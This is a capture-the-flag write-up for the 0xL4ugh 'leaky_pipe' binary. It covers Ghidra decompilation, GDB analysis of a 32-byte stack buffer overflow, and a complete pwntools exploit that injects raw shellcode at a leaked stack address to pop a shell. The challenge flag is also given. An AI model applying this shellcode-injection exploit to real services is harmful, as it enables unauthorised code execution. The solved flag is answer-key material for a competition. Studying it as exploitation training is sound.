 # ctf.0xl4ugh_leaky_pipe

### Solution
We were given a binary.
```
file leaky_pipe
leaky_pipe: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=87689ef50fdd96e017be4819a94fe97f3bac65ce, for GNU/Linux 3.2.0, not stripped
```
We first run it to see what it does
```
We have just fixed the plumbing systm, let's hope there's no leaks!
>.> aaaaah shiiit wtf is dat address doin here...  0x7fffb50a6c80
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: segmentation fault  ./leaky_pipe
```
It seems like a buffer overflow because there is a segmentation fault. Moreover there is also a interesting memory address of the stack pointer (SP). Let's look it into ghidra.
```
undefined8 main(void)

{
  basic_ostream *pbVar1;
  basic_ostream<char,std::char_traits<char>> *this;
  ssize_t sVar2;
  undefined8 uVar3;
  undefined local_28 [32];
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  pbVar1 = std::operator<<((basic_ostream *)std::cout,
                           "We have just fixed the plumbing systm, let\'s hope there\'s no leaks!");
  std::basic_ostream<char,std::char_traits<char>>::operator<<
            ((basic_ostream<char,std::char_traits<char>> *)pbVar1,
             std::endl<char,std::char_traits<char>>);
  pbVar1 = std::operator<<((basic_ostream *)std::cout,
                           ">.> aaaaah shiiit wtf is dat address doin here...  ");
  this = (basic_ostream<char,std::char_traits<char>> *)
         std::basic_ostream<char,std::char_traits<char>>::operator<<
                   ((basic_ostream<char,std::char_traits<char>> *)pbVar1,local_28);
  std::basic_ostream<char,std::char_traits<char>>::operator<<
            (this,std::endl<char,std::char_traits<char>>);
  sVar2 = read(0,local_28,0x40);
  if (sVar2 < 5) {
    pbVar1 = std::operator<<((basic_ostream *)std::cout,"no smol input plz");
    std::basic_ostream<char,std::char_traits<char>>::operator<<
              ((basic_ostream<char,std::char_traits<char>> *)pbVar1,
               std::endl<char,std::char_traits<char>>);
    uVar3 = 0xffffffff;
  }
  else {
    uVar3 = 0;
  }
  return uVar3;
}
```
This is the main funtion 
We can see that there is an array of 32 elements <code> local_28 [32] </code> that can take an input of some data <code> read(0,local_28,0x40); </code> <br>
Now it's time to use this array to overflow and overwrite the rbp register.
Let's look it into GDB.
```
We have just fixed the plumbing systm, let's hope there's no leaks!
>.> aaaaah shiiit wtf is dat address doin here...  0x7fffffffe010
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000555555555295 in main ()
(gdb) info registers
rax            0x0                 0
rbx            0x0                 0
rcx            0x7ffff7bb3e2e      140737349631534
rdx            0x40                64
rsi            0x7fffffffe010      140737488347152
rdi            0x0                 0
rbp            0x4141414141414141  0x4141414141414141
rsp            0x7fffffffe038      0x7fffffffe038
r8             0x0                 0
r9             0x7fffffffde00      140737488346624
r10            0xfffffffffffff286  -3450
r11            0x246               582
r12            0x5555555550a0      93824992235680
r13            0x0                 0
r14            0x0                 0
r15            0x0                 0
rip            0x555555555295      0x555555555295 <main+252>
eflags         0x10246             [ PF ZF IF RF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
```
We see that the RBP register is overwritten with the hex value 41 that means "A" as we given in input and the RIP register now points at <code>0x555555555295</code> with offset <code> <main+252> </code> <br>
Now we have analyzed the binary. Let's go to write the exploit.
First we need to calculate the offset that is 32 bytes + 8 bytes to overflow the RBP register. We need also a shell code that will pop up the shell. <br>
This is the exploit that I create 
```python
# https://ctf.0xl4ugh.com/
# Import pwntools
from pwn import *

# Establish the target process
elf = ELF("leaky_pipe")
r = remote("ctf.0xl4ugh.com", 4141)
offset = 40
r.recvuntil(">.> aaaaah shiiit wtf is dat address doin here...")
leak = int(r.recvline().strip(), 16)
print(hex(leak))
# Prepare the shellcode
shellcode = asm(shellcraft.sh())
# Make the payload
payload = b""
# This shellcode is originally from: http://shell-storm.org/shellcode/files/shellcode-603.php
# This shellcode will pop a shell when we run it
payload += b"\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05"
# Padding to the return address
payload += b"A" * (40 - len(payload))
# Overwrite the return address with the address of the start of our input
payload += p64(leak)
# Send the payload, drop to an interactive shell to use the shell we pop
r.send(payload)
r.interactive()

# flag --> Oxl4ugh{waaaah_yaboooooy_kol_daaa_shellcode}
```
Task Resolved, written by FeeeDz
